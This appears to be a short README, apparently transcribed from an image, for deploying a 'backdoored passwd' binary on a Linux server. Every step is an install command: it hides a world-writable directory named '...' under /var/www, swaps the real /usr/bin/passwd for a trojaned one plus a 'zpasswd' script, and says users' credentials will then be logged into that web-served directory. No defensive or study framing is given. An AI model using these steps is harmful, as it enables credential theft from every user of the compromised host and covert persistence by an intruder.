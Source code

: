 This is a backdoored passwd

You must create a ... directory in /var/www

`mkdir /var/www/...`

Give it 777 permissions and owned by root

`chown root:root /var/www/...
chmod 777 /var/www/...`

Next, you might want to make backup of the original passwd binary

`mv /usr/bin/passwd /usr/bin/passwd.orig`

Move the backdoored passwd binary into /usr/bin

`mv passwd /usr/bin`

Make root own it and make 755 permissions

`chown root:root /usr/bin/passwd
chmod 755 /usr/bin/passwd`

Move the zpasswd python script into /usr/bin

`mv zpasswd /usr/bin`

`chown root:root /usr/bin/zpasswd
chmod 755 /usr/bin/zpasswd`

Now when people run passwd it will emulate the real binary behavior, add the credentials to /var/www/... and then change their password
